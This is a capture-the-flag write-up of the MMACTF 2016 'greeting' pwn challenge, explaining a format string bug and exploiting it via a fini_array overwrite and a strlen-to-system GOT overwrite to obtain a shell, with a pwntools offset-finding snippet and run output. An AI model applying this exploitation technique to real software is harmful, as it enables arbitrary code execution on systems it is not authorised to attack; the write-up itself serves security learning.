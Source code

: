 Title: MMACTF 2016 - Greeting
Date: 2016-09-05 19:30
Category: CTF
Tags: ctf, mmactf2016, pwn
Slug: mmactf-2016-greeting
Authors: wumb0

Challenge description:
> Pwn  
> Host : pwn2.chal.ctf.westerns.tokyo  
> Port : 16317

## Reversing and Finding the Bug

Reversing with radare2:
<script type="text/javascript" src="https://asciinema.org/a/70ae59xl59b2fksh8uk0gvfv4.js" id="asciicast-70ae59xl59b2fksh8uk0gvfv4" async></script>

Looks like another textbook format string vulnerability because the user buffer is put into `sprintf` and then straight into `printf`. This time I had to actually do the work of getting code execution because the flag was not loaded onto the stack.

## Running the binary
I wanted to see the bug in action so I loaded up my Ubuntu VM using vagrant and checked it out:

```shell
→ ./greeting
Hello, I'm nao!
Please tell me your name... %08x
Nice to meet you, 080487d0 :)
```

Neat. Now for exploitation.

## Background
For information on `printf` and a more basic format string exploit, check out the post I did on the [judgement](|filename|MMACTF/judgement.md) pwn challenge also from this CTF. In addition to having positional arguments, `printf` also has a cool feature where you can write the number of bytes that have been printed so far to a variable. This feature is what makes format string vulnerabilities so dangerous. If you can exploit one, you can get arbitrary write. 

Passing `%hn` to `printf` in the format string will write up to a half word value of the number of characters written so far. Combining this with positional arguments allows for half a word at a time to be written to anywhere. So this is bad.

If you are interested in learning more about how format string vulnerabilities work then check out [this paper](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)

## Exploitation
I decided to use [libformatstr](https://github.com/hellman/libformatstr) for this because I have never used it before and it seemed useful so I didn't have to craft the buffer manually. 

The payload function takes two arguments: an argument number and a padding number. The offset number is the word distance in memory away from your input and the padding is the number of bytes your input needs to be padded for the addresses you enter to be word aligned. Libformatstr can be used to determine these numbers:

```python
from pwn import *
from libformatstr import *

e = ELF("./greeting")
r = process(e.path)

r.sendline(make_pattern(0x40))
r.recvuntil("you, ")
res = r.recv()
print(res)
argnum, padding = guess_argnum(res, 0x40)
log.info("argnum: {}, padding: {}".format(argnum, padding))
```

Running this resulted in an output of `argnum: 12, padding: 2`. There was one other bit that needed to be changed as well. Since "Nice to meet you, " was being prepended to my input I had to set an additional argument when setting up the format string exploit called `start_num`. 

Armed with the argument number, padding, and start number I was ready to try and overwrite some values. The issue I ran into was that there are no function calls after the call to `printf` in main. I though of trying to overwrite a destructor (dtors), but there were none. I came across a way to overwrite the `fini` section of a binary to execute a function when the program was supposed to be quitting. I could not find much documentation on exactly what I needed to overwrite to make this work so I just used `objdump` and `grep` to find the symbols with `fini` in the name:

```
→ objdump -t greeting | grep fini
08048780 l    d  .fini  00000000              .fini
08049934 l    d  .fini_array    00000000              .fini_array
08049934 l     O .fini_array    00000000              __do_global_dtors_aux_fini_array_entry
08048740 g     F .text  00000002              __libc_csu_fini
08048780 g     F .fini  00000000              _fini
```

Five choices. Through trial and error I determined that overwriting whatever was at `__do_global_dtors_aux_fini_array_entry` gave me control of the program. 

My plan of attack became the following:  
1. Overwrite `__do_global_dtors_aux_fini_array_entry` with `main`  
2. Overwrite the GOT entry for `strlen` with `system`  
3. Write the full format string line into the program  
4. When main executes the second time, write `/bin/sh` so that the call to `strlen` in the `getnline` function executes `system("/bin/sh")` and gives me a shell!

I wrote the following script to do the above:
<script src="https://gist.github.com/wumb0/1c3d32efbc3f45aa6d724ce46b7efbdd.js"></script>

Running it resulted in the flag :)
```
→ python greet2.py REMOTE
[*] '/home/vagrant/CTF/tokyo/greeting'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[x] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317
[x] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317: Trying 40.74.112.206
[+] Opening connection to pwn2.chal.ctf.westerns.tokyo on port 16317: Done
[+] Wrote system onto strlen and main onto fini... trying shell
[+] got shell
[+] Flag: TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}
[*] Closed connection to pwn2.chal.ctf.westerns.tokyo port 16317
```

W00t!  
**TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}**
